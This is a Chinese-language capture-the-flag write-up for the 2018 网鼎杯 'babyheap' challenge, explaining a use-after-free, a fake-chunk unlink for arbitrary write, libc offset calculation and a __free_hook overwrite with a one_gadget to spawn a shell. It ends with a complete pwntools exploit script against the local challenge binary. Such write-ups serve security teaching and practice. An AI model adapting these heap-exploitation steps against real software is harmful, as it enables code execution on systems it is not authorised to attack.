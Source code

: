# 2018网鼎杯 pwn --babyheap

题目有四个功能 new   edit    show    delete

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/1.png)

delete函数中 free存在指针没置零，可以造成UAF

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/2.png)

其中特别注意  块只能建9块   修改只能改3次



## 利用思路

目标是利用ibc base地址加偏移值得到free_hook的地址，并修改里面的内容为system('\bin\sh')，再执行free()操作，实质是执行getshell。

### 第一步 得到heap_base地址 

​	目标是得到libcbase，但是题目规定malloc chunk的大小为0x20，所以我们要fake一个大点的chunk，再把它free掉，让它分配到unsortedbin中，当一个chunk在unsortedbin中时，它的fd就会指向main_arena。

​	由于UAF的漏洞存在，我们这时去show这个chunk就会把它fd的内容打印出来。

​	为了fake chunk我们需要知道heap的地址，那就so easy啦

​	连续free两个chunk，第二个的fd便是第一个地址

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/3.png)

### 第二步 求出libc base地址

​	知道heapbase，我们开始构造fake chunk：

edit(0,p64(heap+0x20)+p64(0)+p64(0)+p64(0x31))

​	修改fd，因为之前free了两个块，当new一个新块时，会先在旧的里面循环利用，后free先new并将new的块中的fd作为下次new的块地址。

​	简单的说，先new一个块放在chunk0中，按照chunk0中的fd（我们修改为heap+0x20），即再new时，会把新块放在heap+0x20中，但还要考虑到一个问题，当你new到某个旧块时，操作系统会检查旧块的size，如果不匹配，抱歉gg。所以还要fake chunk头，就是后面的(0x0  0x31)。

alloc(6,p64(0)+p64(0xa1)+'\n')

​	new一个新块6放到chunk0中，我多想了，就是回车，哈哈哈xxxxxx后面的'\n'是截断，后面我们的fake chunk头(0x0  0x31)就不会清空了xxxxxx

alloc(7,p64(0)+p64(0xa1)+'\n')

​	new第二个新块，p64(0)+p64(0xa1)刚好覆盖掉chunk1的头，厉害厉害

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/4.png)

​	万事俱备，只欠一free，在free之前，我们还要学习一点厉害的东西——unlink

​	当free一个chunk时，系统会检测前一个chunk和后一个chunk是否为free，每个chunk的头都有prev_size和size，当前一个chunk为free，prev_size为前chunk的大小，并且size的flag位为0，否则prev_size为0，size的flag为1。 free chunk1时，chunk1头的prev_size为0，size为0xa1,flag位为1，即前一chunk不为free，chunk1位置加它的size，即加0xa1，到达下一chunk4，看chunk5的头（0x30,0x30）prev_size为0x30，size为0x30，flag位为0，表示chunk5的前一个chunk4为free，则chunk1和chunk4合并，p指针指向chunk4。 进行unlink操作，unlink操作要检查p->fd->bk ==  p,  p->bk->fd == p。我们在chunk4构造了fd和bk，0x602080是chunk4的ptr，p->fd->bk 即 0x602068+0x18=0x602080 刚好指向 chunk4，p->bk->fd 即 0x602070+0x10 = 0x602080，通过验证。完成unlink操作后，chunk4的指针内容改为0x602068 即chunk4的地址在chunk1的指针地址，修改chunk4内容即修改chunk1的地址，然后修改chunk1达到 任意地址写。

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/5.png)

free chunk1完成后，chunk1的fd指向main_arena

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/6.png)

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/7.png)

求出libc_adr和main_arena偏移值：0x7fa0dfc6db78 - 0x7fa0fd8d2000 = 0x39bb78

注意这只是我的机器的偏移值，并不是靶机的偏移值

求靶机偏移值，利用malloc_hook的偏移差值

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/8.png)

我机malloc_hook偏移：0x7fa0dfc6db10 - 0x7fa0fd8d2000 = 0x39bb10

靶机malloc_hook偏移：0x3c4b10

差值：0x3c4b10 - 0x39bb10 = 0x29000

靶机libc_addr和main_arena偏移：0x39bb78 + 0x29000 = 0x3c4b78

### 第三步 写入shellocode并执行

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/9.png)

往free_hook中写入shellcode，再执行free()操作，等于执行getshell，上图显示 free_hook的偏移值为0x3c67a8，shellcode地址的偏移值为0x45216

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/5.png)

修改chunk4的内容为free_hook的地址，等于把chunk1块指向free_hook，修改chunk1就等于修改free_hook的内容。

修改chun1内容为shellcode地址，即修改free_hook内容为shellcode地址，这里我改为aaaaaaaa滑稽

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFbabyheap/10.png)

执行free，就会getshell了。

exp:

```python
from pwn import *
import sys

def alloc(idx,content):
	r.recvuntil("Choice:")
	r.sendline("1")
	r.recvuntil("Index:")
	r.sendline(str(idx))
	r.recvuntil("Content:")
	r.send(content)

def edit(idx,content):
	r.recvuntil("Choice:")
	r.sendline("2")
	r.recvuntil("Index:")
	r.sendline(str(idx))
	r.recvuntil("Content:")
	r.send(content)

def show(idx):
	r.recvuntil("Choice:")
	r.sendline("3")
	r.recvuntil("Index:")
	r.sendline(str(idx))

def free(idx):
	r.recvuntil("Choice:")
	r.sendline("4")
	r.recvuntil("Index:")
	r.sendline(str(idx))

def exploit(r):
	alloc(0,'aaaaaaaa\n')
	alloc(1,'bbbbbbbb\n')
	alloc(2,'cccccccc\n')
	alloc(3,'dddddddd\n')
	alloc(4,p64(0)+p64(0x31)+p64(0x602080-0x18)+p64(0x602080-0x10))
	alloc(5,p64(0x30)+p64(0x30)+'\n')
	free(1)
	free(0)
	show(0)
	heap = u64(r.recvline()[:-1].ljust(8,'\x00'))-0x30
	print hex(heap)
	edit(0,p64(heap+0x20)+p64(0)+p64(0)+p64(0x31))
	alloc(6,p64(0)+p64(0xa1)+'\n')
	alloc(7,p64(0)+p64(0xa1)+'\n')
	free(1)
	show(1)
	libcaddr = u64(r.recvline()[:-1].ljust(8,'\x00'))-0x3c4b78
	edit(4,p64(libcaddr+0x3c67a8)+'\n')
	edit(1,p64(libcaddr+0x45216)+'\n')
	r.interactive()
	return

r = process("./babyheap")
#r = remote()
print util.proc.pidof(r)
pause()
exploit(r)

```



